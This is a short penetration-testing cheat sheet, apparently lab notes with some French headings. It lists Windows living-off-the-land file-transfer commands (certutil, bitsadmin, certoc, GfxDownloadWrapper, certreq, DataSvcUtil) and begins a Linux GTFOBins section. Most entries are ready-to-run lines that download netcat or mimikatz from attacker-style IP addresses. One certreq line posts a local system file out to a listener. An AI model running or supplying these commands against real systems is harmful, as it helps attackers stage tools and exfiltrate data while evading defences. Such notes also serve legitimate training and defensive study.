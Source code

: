 #### Certutil

```powershell
certutil.exe -urlcache -split -f https://www.example.org/file.exe file.exe
```

```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe nc.exe
```

#### Bitsadmin

```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

```powershell
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

#### CertOC (c:\windows\system32\certoc.exe)

```powershell
certoc.exe -GetCACAPS https://www.example.org/file.ps1
```

#### GfxDownloadWrapper

```powershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

### Upload

#### Certreq

```powershell
certreq.exe -Post -config http://192.168.49.128:8000/upload c:\windows\win.ini
```

#### DataSvcUtil (C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe)

```
DataSvcUtil /out:C:\Windows\Temp\file.ext /uri:https://www.example.org/file.ext
```




## GTFOBINS (Linux)

### Download
#### OpenSSL (Chiffré)

Créer certificat sur attacker
```shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```
